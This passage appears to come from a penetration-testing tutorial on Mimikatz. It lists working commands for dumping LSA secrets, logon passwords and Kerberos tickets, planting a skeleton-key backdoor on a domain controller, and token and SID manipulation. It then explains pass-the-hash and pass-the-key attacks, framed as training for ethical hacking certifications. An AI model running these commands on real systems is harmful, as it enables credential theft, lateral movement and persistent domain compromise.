  * mimikatz "lsadump::secrets" exit
* LSADUMP::SetNTLM: Set a new NTLM hash for a user.
  * mimikatz "lsadump::setntlm /user:targetUser /ntlm:newNtlmHash" exit
* LSADUMP::Trust: Retrieve trust authentication information.
  * mimikatz "lsadump::trust" exit

Miscellaneous

* MISC::Skeleton: Inject a backdoor into LSASS on a DC.
  * mimikatz "privilege::debug" "misc::skeleton" exit

Privilege Escalation

* PRIVILEGE::Backup: Acquire backup rights.
  * mimikatz "privilege::backup" exit
* PRIVILEGE::Debug: Obtain debug privileges.
  * mimikatz "privilege::debug" exit

Credential Dumping

* SEKURLSA::LogonPasswords: Show credentials for logged-on users.
  * mimikatz "sekurlsa::logonpasswords" exit
* **SEKURLSA::Tickets:** Extract Kerberos tickets from memory
  * mimikatz "sekurlsa::tickets /export" exit

#### SID and Token Manipulation

* **SID::add/modify:** Change SID and SIDHistory
  * **Add**_**:**_ mimikatz "sid::add /user:targetUser /sid:newSid" exit
  * **Modify**_**:**_ No specific command for modify in original context.
* **TOKEN::Elevate:** Impersonate tokens.
  * mimikatz "token::elevate /domainadmin" exit

#### Terminal Services

* **TS::MultiRDP:** Allow multiple RDP sessions.
  * mimikatz "ts::multirdp" exit
* **TS::Sessions:** List TS/RDP sessions.
  * No specific command provided for TS::Sessions in original context.

#### Windows Vault

* Extract passwords from Windows Vault.
  * mimikatz "vault::cred /patch" exit

### Obtaining Necessary Information

All the required information for generating a golden ticket can be obtained through the lsadump::lsa /inject /user:krbtgt command. This command extracts the KRBTGT’s NTLM password hash from the LSA database, alongside other domain-related information necessary for crafting the golden ticket.

#### Observing the Integration of a New Kerberos Ticket

In this scenario, the introduction of a freshly acquired Kerberos ticket into the Mimikatz session marks a pivotal moment. This action enables you to authenticate to any resource within your current domain, and potentially extend your reach across different domains. The kerberos::list command serves as a mirror to the klist terminal command, providing a comprehensive overview of all Kerberos tickets currently active in your Mimikatz session.

### Pass-the-Hash (PtH) Attack Techniques

Should you encounter difficulties in accessing the KRBTGT account, Mimikatz offers an alternative strategy via Pass-the-Hash (PtH) attacks. This method facilitates lateral movement within a network by leveraging the NTLM password hash of a user account.

#### Requirements for PtH Attacks

* _**System-Level Privileges:**_ To execute a PtH attack, you must possess system-level privileges on the target machine.
* _**NTLM Password Hash:**_ You need the NTLM password hash of the account whose credentials you with to impersonate.
* _**NTLM Authentication Enabled:**_ The server or service you aim to access must support NTLM authentication.

#### Conducting a PtH Attack with Mimikatz

To initiate a PtH attack using Mimikatz, begin by extracting the user’s NTLM hash. This can be accomplished with the sekurlsa::logonpasswords command, which you can use to dump the user’s NTLM hash.

.png>)

Next, gather the username /user, domain /domain, and password hash /ntlm you want to use in your PtH attack. Once gathered, use the sekurlsa::pth command to perform the attack.

.png>)

.png>)

By default, this will start a command prompt as the Administrator user and inject the impersonated credential information into this process, allowing you to impersonate that user and access resources they have permissions to.

From the screenshot above, the mindhackdiva-admin user does not have permission to read the secrets network folder. The mindhackdiva user account does, however, impersonate this user and gives us access, as shown in the spawned command prompt on the bottom left above.

This is a useful option if you are executing Mimikatz through a C2 agent and want to customize the command that is automatically run using the .run option.

However, if you don’t want to automatically run a command, add the /impersonate option to the command. This will create a token in your current Mimikatz session that impersonates that user.

NTLM authentication will be turned off in security-hardened environments, and resources will enforce Kerberos authentication. This is where the Over-Pass-the-Hash, or Pass-the-Key attacks come into play.

### Over-Pass-the-Hash (Pass-the-Key) Attacks

An Over-Pass-the-Hash, or more commonly referred to as a Pass-the-Key attack involves extracting a target user’s Kerberos authentication ticket and injecting it into the current session. This allows you to impersonate the target user and access resources they have permission to access.

Performing a pass-they-key attack is simple.

First, you extract the Kerberos tickets on the compromised machine using the sekurlsa::tickets /export command, as showcased previously. Then you use the kerberos::ptt command followed by the name of the user ticket you want to impersonate.

This will inject – or pass – the Kerberos ticket into your current session. You can now spawn a terminal from this Mimikatz process with the command misc::cmd (1) and confirm you have the Kerberos token ready to use by running klist (2).

Here, you can see the token for the mindhackdiva user has been stolen, allowing you to access resources this user has permission to (3).

Note: If the Mimikatz kerberos::ptt command is not working as expected, you may need to try another Kerberos ticket extraction tool like ticketer.py or Rubeus. For more information on this, please check out this GitHub thread at [_https://github.com/gentilkiwi/mimikatz/issues/294_](https://github.com/gentilkiwi/mimikatz/issues/294)_._

Mimikatz Attack Options

Mimikatz is an incredibly powerful tool.

You’ve seen how it can extract encrypted passwords, dump credentials, and be used in attacks like Pass-the-Hash (PtH) and Over-Pass-the-Hash (Pass-the-Key) attacks.

Its ability to attack Windows authentication protocols like NTLM and Kerberos has made it a staple in the ethical hacking, pentesting, and red teaming industry for a long time.

Use the demonstrations in this section as a starting point for your post-exploitation activities and keep exploring all of Mimikatz’s features this awesome tool offers by creating your own virtual hacking environment.

In addition, if your goal is to be certified in either the OSCP, PNTP, or CRTO, all three require using Mimikatz to perform hands-on hacking exercises and simulations.
